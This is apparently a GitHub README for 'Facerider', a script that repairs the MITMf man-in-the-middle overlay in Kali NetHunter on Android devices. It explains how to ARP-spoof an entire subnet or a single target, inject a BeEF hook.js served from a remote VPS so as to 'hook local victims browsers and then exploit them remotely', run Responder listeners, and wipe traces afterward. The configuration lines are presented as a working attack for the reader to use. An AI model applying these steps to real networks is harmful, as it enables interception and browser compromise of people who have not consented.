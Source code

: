 # Facerider: New and improved mitmf fixes for Nethunter Phones and Tablets

Hello, so I just got my brand new/used OnePlus One and immediately added Kali NetHunter to it. Only to my dismay, that a number of features are broken.

This repo specifically fixes the functionality of the MITMf overlay on your NetHunter App. Rather than try to fix the overlay's mitmf command-line-parser (it leaves empty --whitelist and --blacklist options causing the attack to break on runtime), I decided to write a simple Python script with a centralized configuration option in ./Facerider/mitmf.cfg

Using this is much simpler, just edit mitmf.cfg with your Android text editor of choice (I use Total Commander's text editing function) and set your options to 0 (OFF) or 1 (ON), and set variables such as your Beef Framework hook.js URL to the = sign, and then run

<code>cd EasyNethunter;python wip_mitmf_improved.py</code>

Within it, is a simple two-button ON/OFF attack switch. Select 1 and press [Enter] to start the attack. Select 2 and [Enter] to stop the attack and wipe all traces of any background processes that may be running (Responder listeners on certain ports)

# Installation

Using your nethunter device, git clone this repo

<code></code>

Then edit the mitmf.cfg file, personally I do not use nano on Kali Nethunter because it's wonky with the phone's display options as you shift between portrait and landscape. You can install Total Commander from the Android App Store instead.

Leave empty = options commented out so the script won't throw a error.

# Beef Framework on a Remote VPS

The line "JS_URL = http://127.0.0.1:3000/hook.js" can be modified to point to a remote VPS (such as Amazon Web Services) running the beef framework allowing you to hook local victims browsers and then exploit them remotely.

Assuming you are using a wireless card and you have wireless connected your Nethunter device to a hotspot...

set INTERFACE = wlan0
set INJECT = 1
set JS_URL = http://yourvpsipaddress:3000/hook.js
set SPOOF = 1
set SPOOF_TYPE = 1
set SPOOF_GATEWAY = The gateway you found with the route -n command // Alternatively  you can use the IPTools app on the Google Play Store to find your local router's IP but it's been shoddy.

SPOOF_TARGET can be left commented out if you wish to attack the entire subnet.
